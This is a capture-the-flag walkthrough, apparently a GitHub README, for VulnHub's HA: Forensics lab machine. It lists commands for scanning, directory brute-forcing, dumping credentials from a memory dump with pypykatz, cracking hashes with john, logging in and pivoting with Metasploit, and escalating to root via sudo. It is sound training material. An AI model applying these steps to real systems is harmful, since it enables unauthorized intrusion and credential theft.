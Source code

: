 # HA-Forensics-Vulnhub-
A detailed forensics-focused CTF walkthrough from VulnHub's HA: Forensics machine — involving memory dumps, metadata, password cracking, and privilege escalation

# 🧪 HA: Forensics - CTF Walkthrough (VulnHub)

> A complete forensic-style walkthrough of the VulnHub machine: **HA: Forensics**. This lab includes multiple stages involving image analysis, memory dump forensics, post-exploitation pivoting, and privilege escalation.

---

## 📌 Summary

- **Platform:** VulnHub  
- **Category:** Forensics / Post-Exploitation  
- **Difficulty:** Intermediate  
- **Flags:** 4  
- **IP Address:** `Machine_IP`  
- **Tools Used:** `nmap`, `netdiscover`, `dirb`, `exiftool`, `pypykatz`, `john`, `Metasploit`, `Autopsy`

---

## 🛰️ 1. Network Discovery

```bash
sudo netdiscover -r Machine_IP/24
```


## 🔍 2. Port Scanning with Nmap
```bash
sudo nmap -A -Pn "Machine_IP"

Open ports:

SSH (22)
HTTP (80)
```

## 🌐 3. Web Enumeration

```bash
Visit: http://Machine_ip
The webpage displays some forensic-themed imagery.

Using dirb or dirbuster, we find a hidden /images/ directory.

bash
Copy
Edit
dirb http://Machine-IP/
Inside /images/:

DNA.jpg (decoy)

fingerprint.jpg ➝ contains EXIF metadata

bash
Copy
Edit
exiftool fingerprint.jpg
🎯 Flag #1 Found! Inside EXIF comment
```

## 📁 4. Deeper Enumeration

```bash
Directory brute-force with extensions:

bash
Copy
Edit
dirb http://192.168.101.12/ -X .txt
Discovered: /tips.txt ➝ mentions flag.zip

Download flag.zip and extract:

bash
Copy
Edit
unzip flag.zip
```

## 🎯 Flag #2 Found inside PDF
```bash

🧠 5. Memory Forensics
The ZIP also contains a .dmp file (memory dump).
Analyze with pypykatz:

bash
Copy
Edit
pypykatz lsa minidump file.dmp
Extracted NTLM hash ➝ Save to hashes.txt

Crack with john:

bash
Copy
Edit
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Password found: Password@1
```
🔓 6. Initial Access (SSH + Meterpreter)

```bash
bash
Copy
Edit
use auxiliary/scanner/ssh/ssh_login
set USERNAME jasoos
set PASSWORD Password@1
set RHOSTS 192.168.101.12
run
Got meterpreter session 🎉
Enumerate interfaces:

bash
Copy
Edit
ifconfig
Found Docker bridge: 172.17.0.1

Use autoroute:

bash
Copy
Edit
run autoroute -s 172.17.0.0/24
```
📡 7. Internal Pivot & FTP Access
```bash
Ping sweep to find Docker service:

bash
Copy
Edit
for i in $(seq 2 254); do ping -c1 172.17.0.$i | grep "bytes from"; done
Found: 172.17.0.2

Nmap scan ➝ FTP (21) open
Test anonymous login:

bash
Copy
Edit
ftp 172.17.0.2
Name: anonymous
Password: anonymous
Inside /pub/ ➝ saboot.001
```
🔬 8. Forensic Image Analysis with Autopsy
```bash
Transfer using Python HTTP server:

On target:

bash
Copy
Edit
python3 -m http.server 8000
On host:

bash
Copy
Edit
wget http://172.17.0.2:8000/saboot.001
Start Autopsy:

bash
Copy
Edit
autopsy
Open browser: http://localhost:9999

Create case ➝ Add image ➝ Select as partition
```
🎯 Found:
```bash
flag.txt ➝ Flag #3

creds.txt ➝ Base64-encoded password
```
🧬 9. Privilege Escalation
```bash
Decode creds:

bash
Copy
Edit
echo 'UGFzc3dvcmQyQCM=' | base64 -d
# Output: Password2@#
Use su to switch user ➝ forensics:

bash
Copy
Edit
su forensics
Check sudo rights:

bash
Copy
Edit
sudo -l
Can run ALL as root ➝ escalate:

bash
Copy
Edit
sudo bash
```
🎯 Final flag at /root/final_flag.txt ➝ Flag #4
```bash
🧠 Key Learnings
Always brute-force with multiple file extensions

EXIF metadata is a goldmine in forensics

Pypykatz is incredibly useful with memory dumps

Use autoroute to pivot inside internal networks

Autopsy is a powerful GUI-based image analyzer

Don’t underestimate Base64 encoding for password hiding
